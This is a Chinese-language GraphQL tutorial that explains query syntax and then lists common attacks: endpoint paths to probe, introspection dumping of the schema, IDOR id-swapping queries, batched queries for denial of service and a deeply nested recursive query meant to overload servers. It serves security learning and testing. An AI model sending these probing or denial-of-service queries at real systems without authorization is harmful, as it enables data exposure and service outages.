# 0x 01 简介


GraphQL 是一种针对 Graph（图状数据）进行查询特别有优势的 Query Language（查询语言），所以叫做 GraphQL。GraphQL 提供了一套完整的规范和描述用于查询 API，服务端能够准确地返回给客户端需要的数据且没有任何冗余的数据。GraphQL 本质是 API 查询语言，用于前后端数据的查询；开发者可以自定义数据模型、查询规范和查询参数，并在一个请求中就可以获取所有想要的数据。这不像 RESTful 请求，可能需要请求多次才可以获取需要的数据。所以在 GraphQL 请求中，开发者对于返回的结果是有确定性的。


## 0x 02 对比REST API

## **数据获取方式**

- **REST API**

  - 返回服务端预先定义的数据，例如，一个api请求，客户端发送了一个订单id，服务端为了适应某些情况下特殊请求，返回了大量订单信息，造成资源的开销。
  - 多次请求，可能客户端在短时间内会对服务端进行多次请求，但返回的内容大多数相同。
  - 多个端点，每个资源对应一个 URL（如 /users、/orders），通过 HTTP 方法（GET/POST/PUT/DELETE）区分操作。依赖HTTP请求方法。
  - 服务根据不同状态返回不同的HTTP状态码，如200、404、500等

- GraphQL API

  - 客户端自定义一个查询Query，明确要查询的数据字段，简洁高效，资源消耗少。
  - **单一端点**：所有操作（查询、变更、订阅）均通过一个端点（如 `/graphql`）完成。
  - 通过 query（读）、mutation（写）、subscription（实时订阅）定义操作类型，不依赖 HTTP 方法
  - 服务端大部分默认请求结果状态码都是200，即使是报错信息也是以200状态码进行返回。

## 0x 03 GraphQL常见API接口
GraphQL API与Restful API不同，一般来说它的URL比较固定，这也是它的特性之一，从单个请求中获取应用程序所需的所有数据。
```
/graphql  
/graphiql  
/v1/graphql  
/v2/graphql  
/v3/graphql  
/v1/graphiql  
/v2/graphiql  
/v3/graphiql  
/api/graphql  
/api/graphiql  
/graphql/api  
/graphql/console  
/console  
/playground  
/gql  
/query
```

## 0x 04 常见语法

### Query
#### 基础查询
在GraphQL中查询语法和SQL语法十分相似：
通常使用`query{}` 来包含要查询的参数和字段，返回包包中通常会有`{"data":"..."}` 格式进行返回查询内容。
例如：查询book对象中的字段`id` 、`title`、`author` 。
```
query {
  books {
    id
    title
    author
  }
}
```

#### 单个查询
基于类似SQL中的where语法进行筛选我们需要的数据，进行单个数据查询。
例如：查询book对象中id值为1的字段`id` 、`title`、`author` 。
```
query{
  book(id: 1){
    id
    title
    author
  }
}
```

通常来说，查询字段必须包含至少一个，否则就会报错。

#### 多个查询（批量查询）
GraphQL 可以一次请求多个字段，也可以一次请求查询多个对象。这里的`book1`和`book2`都是设置的别名。
```
query {
  book1: book(id: 1) {
    title
  }

  book2: book(id: 2) {
    title
  }

  books {
    id
  }
}
```

### Variables（变量）
单个查询和多个查询在本质上还是硬编码形式，如果要查询更多数据或者进行其他数据操作就需要引入变量的概念。这里的GetBook是我们自定义的函数名，在Variables区域设置`bookId`值为1，就可以调用GetBook函数查询了。
Query：
```
query GetBook($bookId: Int) {

  book(id: $bookId) {
    id
    title
    author
  }
}
```
Variables：
```
{
  "bookId": 1
}
```


### Fragment（片段）
Fragment翻译为片段，其实更接近模板的用法。在一个比较复杂的查询应用场景中，使用同一个字段查询可能会出现多次。
例如：
```
query {

  books {

    id
    title
    author
  }

  book(id: 1) {

    id
    title
    author
  }
}
```
很明显，`id` 这些字段出现了多次，而且复杂且繁琐，不仅难以维护也不便于人类观察。
引入Fragment就可以写为：
```
query {

  books {
    ...BookFields
  }

  book(id: 1) {
    ...BookFields
  }
}

fragment BookFields on Book {

  id
  title
  author
}
```

### Mutation（修改）
在GraphQL当中，如果要修改服务器上的数据，就需要使用Mutation语法。
例如：要添加图书，使用mutation并使用函数`addBook`，参数为`title`、`author` 。注意，这里的函数名addBook是跟服务端代码对应的，修改就会报错，参数值也是。常见会忽略了`addBook(...)`后面的字段，这是因为GraphQL Mutation返回的是对象`BookType`，所以可以继续查询。
```
mutation {

  addBook(
    title: "GraphQL Security"
    author: "dragonkeep"
  ) {

    id
    title
    author
  }
}
```

```
mutation {

  deleteBook(
    id:6
  ) {
    id
    title
    author
  }
}
```

### Introspection（内省查询）
GraphQL 内省查询（Introspection Query）是 GraphQL 官方规范提供的一种自描述机制，允许客户端通过特殊元字段（如 `__schema`、`__type`、`__typename`）动态获取 API 的 Schema 结构、类型、字段、参数及 Mutation 等信息。
**GraphQL默认开启Introspection模式**。
例如：最常见的内省查询,只有开启了内省查询就可以使用下面查询语法进行查询字段值。
```
query {

  __schema {

    types {
      name
    }
  }
}
```

使用[Hacking-APIs](https://github.com/hAPI-hacker/Hacking-APIs)仓库中GraphQL_IntrospectionQuery可以直接导出整份GraphQL API文档。
```grapql title:"GraphQL_IntrospectionQuery" 

  query IntrospectionQuery {
    __schema {
      queryType { name }
      mutationType { name }
      subscriptionType { name }
      types {
        ...FullType
      }
      directives {
        name
        description
        locations
        args {
          ...InputValue
        }
      }
    }
  }

  fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
      name
      description
      args {
        ...InputValue
      }
      type {
        ...TypeRef
      }
      isDeprecated
      deprecationReason
    }
    inputFields {
      ...InputValue
    }
    interfaces {
      ...TypeRef
    }
    enumValues(includeDeprecated: true) {
      name
      description
      isDeprecated
      deprecationReason
    }
    possibleTypes {
      ...TypeRef
    }
  }

  fragment InputValue on __InputValue {
    name
    description
    type { ...TypeRef }
    defaultValue
  }

  fragment TypeRef on __Type {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                }
              }
            }
          }
        }
      }
    }
  }
```



### Subscription（订阅）
Subscription通常用于WebSocket实时推送，在需要实时通信的常见下，大量使用query查询会消耗大量资源，使用Subscription机制，服务端在数据变化情况下主动向客户端进行反馈，而不是客户端使用大量query进行轮询操作。
Subscription在实际使用常见较为少见，这里不做讨论展开。可以使用下面的内省查询来查看服务端是否支持Subscription。
```
{
  __schema {
    subscriptionType {
      name
    }
  }
}
```
## 0x 05 常见攻击手段
### Introspection 信息泄露 
由于GraphQL默认开启内省查询模式，在开发者没有手动关闭的情况下，攻击者可以通过内省查询导出整份API文档，不仅是信息泄露，也便于进一步对API接口进行测试。
一般直接使用下面的查询进行测试是否开启Introspection。
```
{
  __schema {
    queryType {
      name
    }
  }
}
```
如果开启了就直接返回数据结构了，但要是开发者手动关闭的话就会返回类似如下：

在确认开启内省模式后，
https://apis.guru/graphql-voyager/
把导出的数据粘到这个网站可以清晰查看数据结构。


### BOLA / IDOR 
GraphQL API跟RESTFUL API也是一种常见API，存在API安全常见问题。未授权访问和越权访问相关安全问题。
使用Burp抓包发现存在正常的GraphQL请求：
```
query{
  book(id: 1){
    id
    title
    author
  }
}
```
我们可以进一步尝试：
```
query{
  book{
    id
    title
    author
  }
}
```
或者
```
query{
  books{
    id
    title
    author
  }
}
```
又或者：
```
query{
  book(id: 2){
    id
    title
    author
  }
}
```
等等常见的BOLA / IDOR 安全测试方法。
### 批量查询攻击

Graphql语法支持批量查询，使其成为DoS攻击以及其他攻击。如果识别出资源密集型 GraphQL 查询，我们可以利用批处理来调用查询接口，导致服务器淹没在请求中，造成拒绝服务攻击。
假如我们发现查询`systemUpdate`参数需要消耗服务器大量资源，我们可以使用批量请求，造成DOS攻击。
```
query{
	systemUpdate
}
query{
	systemUpdate
}
query{
	systemUpdate
}
```

###  深度递归查询攻击
在 GraphQL 中，当类型之间相互引用时，就会构建一个循环查询，该查询以指数方式增长到可以使服务器瘫痪的程度。诸如 max_depth之类的方法可以帮助减轻这些类型的攻击。
```text
query {
  pastes {
    owner {
      paste {
        edges {
          node {
            owner {
              paste {
                edges {
                  node {
                    owner {
                      paste {
                        edges {
                          node {
                            owner {
                              id
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```


# Refence

https://www.youtube.com/watch?v=ZQL7tL2S0oQ
https://www.explinks.com/blog/graphql-api-penetration-testing-guide/